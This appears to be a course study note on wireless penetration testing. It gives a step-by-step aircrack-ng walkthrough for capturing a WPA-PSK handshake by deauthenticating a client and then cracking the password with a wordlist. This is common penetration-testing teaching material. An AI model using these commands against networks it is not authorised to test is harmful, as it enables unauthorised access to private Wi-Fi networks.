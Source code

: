 # 22. Wireless Penetration Testing


## Wireless Pentesting Overview
![](https://i.imgur.com/fW9yKrh.png)
![](https://i.imgur.com/Bv5RBg9.png)
![](https://i.imgur.com/QjtxSHX.png)

- Kali linux compatible usb adaptor dongles

## WPA PS2 Exploit
- Relies on poor password

### Steps
1.  Connect wireless card to VM
2. iwconfig
3. Run: airmon-ng check kill
4. Run: airmon-ng start wlan0
5. Run: airodump-ng wlan0mon
6. Lower the number, the closer we are to the device

> Check our wireless channels

7. Run: airodump-ng -c CHANELL --bssid MACADRESS -w capture wlan0mon
8. Run: aireplay-ng -0 1 -a MACADRESS -c STATION wlan0mon
9. Try above command for a number of times until it works
10. aircrack-ng -w wordlist.txt -b MACADRESS capture-01.cap




